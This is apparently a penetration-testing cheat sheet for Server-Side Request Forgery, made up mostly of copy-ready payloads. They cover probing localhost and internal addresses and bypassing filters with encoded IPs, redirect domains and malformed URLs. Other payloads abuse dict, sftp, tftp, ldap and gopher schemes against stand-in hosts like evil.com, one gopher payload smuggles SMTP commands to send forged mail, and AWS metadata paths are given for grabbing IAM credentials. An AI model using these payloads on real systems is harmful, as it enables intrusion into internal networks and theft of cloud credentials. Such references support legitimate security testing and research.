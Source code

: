 # Server-Side Request Forgery
Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on behalf of him.

## Exploit with localhost

Basic SSRF v1
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

Basic SSRF v2
```
http://localhost:80
http://localhost:443
http://localhost:22
```

Advanced exploit using a redirection
```
1. Create a subdomain pointing to 192.168.0.1 with DNS A record  e.g:ssrf.example.com
2. Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

Advanced exploit using type=url
```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

## Bypassing filters
Bypass localhost with [::]
```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

Bypass localhost with a domain redirecting to locahost
```
http://n-pn.info
```

Bypass localhost with CIDR : 127.x.x.x
```
it's a /8
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

Bypass using a decimal ip location
```
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

Bypass using malformed urls
```
localhost:+11211aaa
localhost:00011211aaaa
```

Bypass using rare address
```
http://0/
```

Bypass using tricks combination
```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

## SSRF via URL Scheme
Dict://   
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:
```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

Sftp://
```
ssrf.php?url=sftp://evil.com:11111/
```

Tftp://
```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

Ldap://
```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

Gopher://
```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

## SSRF on AWS Bucket
Interesting path to look for at http://169.254.169.254
```
Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
```

DNS record
```
http://169.254.169.254
http://metadata.nicob.net/
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
```

HTTP redirect
```
Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
```

Alternate IP encoding
```
http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
```



## Thanks to
* [Hackerone - How To: Server-Side Request Forgery (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
* [Awesome URL abuse for SSRF by @orange_8361 #BHUSA](https://twitter.com/albinowax/status/890725759861403648)
* [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! Orange Tsai](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
* [SSRF Tips - xl7dev](http://blog.safebuff.com/2016/07/03/SSRF-Tips/)
* [SSRF in https://imgur.com/vidgif/url](https://hackerone.com/reports/115748)
* [Les Server Side Request Forgery : Comment contourner un pare-feu - @Geluchat](https://www.dailysecurity.fr/server-side-request-forgery/)
* [AppSecEU15 Server side browsing considered harmful - @Agarri](http://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf)
